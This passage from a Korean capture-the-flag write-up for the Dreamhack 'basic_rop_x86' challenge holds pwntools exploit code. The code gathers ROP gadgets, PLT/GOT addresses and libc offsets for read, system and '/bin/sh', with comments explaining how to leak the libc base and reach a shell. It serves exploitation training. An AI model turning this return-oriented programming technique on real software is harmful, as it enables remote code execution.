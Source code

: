
#### 6) 리턴 가젯 찾기

``` python
from pwn import *

TEST = True
if TEST:
    p = process("./basic_rop_x86")
    e = ELF("./basic_rop_x86")
    libc = e.libc
else:
    p = remote('host3.dreamhack.games', 13458)
    e = ELF("./basic_rop_x86")
    libc = ELF("./libc.so.6")

# ROP(e)는 ELF에서 ROP 가젯을 자도응로 수집해서 활용할 수 있게 해 줌.
r = ROP(e)

'''
read_plt = e.plt["read"]
: read() 함수의 PLT(Procedure Linkage Table) 엔트리 주소.
: 프로그램이 read()를 호출할 때 실제로 점프하는 위치.
: 즉, ROP 체인에서 call read 같은 효과를 주고 싶을 때 사용.

read_got = e.got["read"]
: read() 함수의 GOT(Global Offset Table) 엔트리 주소.
: 실행 시작 시 read()의 실제 libc 주소가 없으므로, 처음 호출될 때 resolve 되어 GOT에 기록됨.
: puts(read_got) 같은 식으로 출력하면 libc의 실제 read() 주소를 leak할 수 있음.

main = e.symbols["main"]
: main() 함수의 주소.
:보통 첫 번째 ROP 공격(주소 leak) 후 프로그램을 정상 흐름으로 되돌리기 위해 main으로 점프시킴.
: 즉, "프로그램을 초기 상태로 리셋"하는 역할.
'''
read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

'''
read_offset = libc.symbols["read"]
: libc.so.6 안에 정의된 read() 함수의 오프셋(상대 주소).
: libc는 메모리에 로드될 때 base 주소가 랜덤이지만, base + offset = 실제 주소 가 성립함.
: 따라서 leak한 read 주소에서 base를 구할 수 있음:
: libc_base = leaked_read - read_offset

system_offset = libc.symbols["system"]
: libc 안의 system() 함수 오프셋. 
: system("/bin/sh") 실행을 위해 필요
: 나중에:
: system_addr = libc_base + system_offset

sh_offset = list(libc.search(b"/bin/sh"))[0]
: libc 메모리 안에서 "/bin/sh" 문자열을 찾음.
: libc.search(b"/bin/sh") → 제너레이터 반환 (주소 후보들).
: list(...)[0] → 첫 번째 /bin/sh 문자열의 오프셋.
: 최종 실제 주소는:
: binsh_addr = libc_base + sh_offset
'''
read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh_offset = list(libc.search(b"/bin/sh"))[0]
```